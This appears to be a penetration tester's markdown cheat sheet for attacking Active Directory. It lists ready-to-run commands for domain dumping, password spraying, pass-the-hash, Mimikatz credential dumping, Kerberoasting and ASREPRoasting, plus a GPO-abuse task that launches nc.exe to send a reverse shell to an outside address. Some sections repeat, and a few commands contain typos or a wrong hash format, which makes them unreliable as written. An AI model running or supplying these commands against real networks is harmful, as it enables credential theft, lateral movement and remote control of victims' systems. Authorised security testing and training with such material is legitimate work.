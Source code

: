 # Active Directory
======
#### Dump Domain (ldapdomaindump)
ldapdomaindump ldap://<domain> -u 'DOMAIN\user' -p 'password'
#### Dump Users (nmap)
nmap -p 389 --script-args 'ldap.username="cn=myUser,cn=users,dc=myDomain,dc=local",ldap.password=P@ssw0rd,ldap.qfilter=users,ldap.attrip=sAMAccountName' myDomain.local
#### Return list of users
cat domain_users.grep | awk '{print $1}' > users.txt
#### Return list of computers + IPs
cat domain_computers.grep | awk '{print $3}' | grep -v dNS | xargs dig a @192.168.105.10 | grep kortana.local | egrep -v "^;" | awk '{print $5"-"$1}' | cut -d '.' -f1-4 | tr [[:lower:]] [[:upper:]]
#### mkdir in a loop
for dir in $(cat domain_computers.grep | awk '{print $3}' | grep -v dNS | xargs dig a @192.168.105.10 | grep kortana.local | egrep -v "^;" | awk '{print $5"-"$1}' | cut -d '.' -f1-4 | tr [[:lower:]] [[:upper:]]); do mkdir ~/$dir; done

## Password Spraying
------
#### Password Spraying (CrackMapExec)
crackmapexec smb -u /path/to/users.txt -p /path/to/passwords.txt 192.168.0.0/24
#### Spray with Local Administrator Password
crackmapexec smb 192.168.0.0/24 -u Administrator --local-auth -H <NTLM:hash>
#### Remote Desktop
xfreerdp /u:DOMAIN\user /p:<pass> /v:<ip>
#### Rubeus (get TGT and apply to new process)
Rubeus.exe asktgt /user:<user> /rc4:<NTLM hash> /createnetonly:cmd.exe /show /domain:<domain> /dc:<dc-ip>
#### Mimikatz programmatically dump passwords
mimikatz.exe "privilege::debug" "log .\logs\Result.txt" "sekurlsa::logonPasswords" "token::elevate" "lsadump::sam" exit
#### Create Immediate GPO Task
SharpGPOAbuse.exe --AddComputerTask --TaskName "New Task" --Author "DOMAIN\user" --Command "cmd.exe" --Arguments "/c C:\Temp\nc.exe -v 192.168.99.21 443 -e cmd"  --GPOName Name-of-GPO
#### Local Administrator Password
crackmapexec smb 192.168.0.0/24 -u Administrator --local-auth -H <NTLM:hash>
#### Remote Desktop
xfreerdp /u:DOMAIN\user /p:<pass> /v:<ip>
#### Rubeus (get TGT and apply to new process)
Rubeus.exe asktgt /user:<user> /rc4:<NTLM hash> /createnetonly:cmd.exe /show /domain:<domain> /dc:<dc-ip>
#### Mimikatz programmatically dump passwords
mimikatz.exe "privilege::debug" "log .\logs\Result.txt" "sekurlsa::logonPasswords" "token::elevate" "lsadump::sam" exit

## Kerberoast
------
#### Find Service Accounts (PowerView)
Get-NetUser -SPN
#### Find Service Accounts (PowerShell)
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
#### Find Service Accounts (Impacket)
python GetUserSPNs.py domain.local/domainUser:abc123 -outputfile outfile.txt
#### Do Kerberoasting (PowerView)
Invoke-Kerberoast -Domain plum.local
#### Crack Kerberoast Hash
john kerberoast.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5asrep

## ASREPRoast
------
#### ASREPRoast (PowerView)
Get-DomainUser -PreauthNotRequired -Verbose
#### ASREPRoast (PowerShell)
Get-ADUser -Filter {DoesNoteRequirePreAuth -eq $True} -Properties DoesNoteRequirePreAuth
#### Do ASREPRoasting, targeted user
Get-ASREPHash -UserName myUser -Verbose
#### Do ASREPRoasting, all users
Invoke-ASREPRoast -Verbose
#### Do ASREPRoasting (Rubeus)
.\Rubeus.exe asreproast /outfile:outfile.txt
#### Do ASREPRoasting (Impacket)
python GetNPUsers.py domain.local/ -usersfile users.txt -outputfile outfile.txt

## Force Set SPN (in order to kerberoast an account!)
------
#### Set SPN on Account (PowerView)
Set-DomainObject myUSer -Set @{serviceprincipalname='ops/whatever1'}
#### Set SPN on Account (PowerShell)
Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
